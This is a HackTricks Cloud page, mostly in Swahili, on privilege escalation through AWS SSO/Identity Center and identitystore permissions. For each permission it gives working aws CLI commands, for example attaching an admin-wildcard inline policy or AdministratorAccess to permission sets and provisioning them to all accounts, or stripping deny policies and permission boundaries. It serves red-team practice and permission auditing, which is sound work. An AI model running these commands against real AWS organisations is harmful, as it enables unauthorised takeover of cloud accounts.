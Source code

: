 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Kwa maelezo zaidi kuhusu AWS Identity Center / AWS SSO angalia:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Kumbuka kwamba kwa **kawaida**, ni **watumiaji** pekee wenye ruhusa **kutoka** kwenye **Account ya Usimamizi** watakuwa na uwezo wa kufikia na **kudhibiti IAM Identity Center**.\
Watumiaji kutoka akaunti nyingine wanaweza tu kuruhusiwa ikiwa akaunti hiyo ni **Msimamizi wa Wawakilishi.**\
[Angalia hati kwa maelezo zaidi.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Reset Password~~

Njia rahisi ya kupandisha hadhi katika kesi kama hii ingekuwa kuwa na ruhusa inayoruhusu kubadilisha nywila za watumiaji. Kwa bahati mbaya, inawezekana tu kutuma barua pepe kwa mtumiaji ili kubadilisha nywila yake, hivyo unahitaji ufikiaji wa barua pepe ya mtumiaji.

### `identitystore:CreateGroupMembership`

Kwa ruhusa hii inawezekana kuweka mtumiaji ndani ya kundi ili inherit ruhusa zote ambazo kundi lina. 

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kutoa ruhusa za ziada kwa Seti ya Ruhusa ambayo imetolewa kwa mtumiaji chini ya udhibiti wake

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kutoa ruhusa za ziada kwa Seti ya Ruhusa ambayo imetolewa kwa mtumiaji chini ya udhibiti wake

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kutoa ruhusa za ziada kwa Seti ya Ruhusa ambayo imetolewa kwa mtumiaji chini ya udhibiti wake.

{% hint style="warning" %}
Ili kutumia ruhusa hizi katika kesi hii unahitaji kujua **jina la sera inayosimamiwa na mteja ambayo iko ndani ya AKAUNTI ZOTE** ambazo zitakazoathirika.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Mshambuliaji mwenye ruhusa hii anaweza kumpa Seti ya Ruhusa mtumiaji chini ya udhibiti wake kwa akaunti.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Inarudisha STS muda mfupi wa akreditivu kwa jina la jukumu lililotolewa kwa mtumiaji.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Hata hivyo, unahitaji token ya ufikiaji ambayo sija hakika jinsi ya kupata (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kuondoa uhusiano kati ya sera inayosimamiwa na AWS kutoka kwa seti ya ruhusa iliyotajwa. Inawezekana kutoa ruhusa zaidi kupitia **kuondoa sera inayosimamiwa (sera ya kukataa)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kuondoa uhusiano kati ya sera inayosimamiwa na Mteja kutoka kwa seti ya ruhusa iliyotajwa. Inawezekana kutoa ruhusa zaidi kupitia **kuondoa sera inayosimamiwa (sera ya kukataa)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kuondoa ruhusa kutoka kwa sera ya ndani kutoka kwa seti ya ruhusa. Inawezekana kutoa **ruhusa zaidi kupitia kuondoa sera ya ndani (sera ya kukataa)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Mshambuliaji mwenye ruhusa hii anaweza kuondoa Mipaka ya Ruhusa kutoka kwa seti ya ruhusa. Inawezekana kutoa **haki zaidi kwa kuondoa vizuizi kwenye Seti ya Ruhusa** vilivyotolewa kutoka kwa Mipaka ya Ruhusa.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
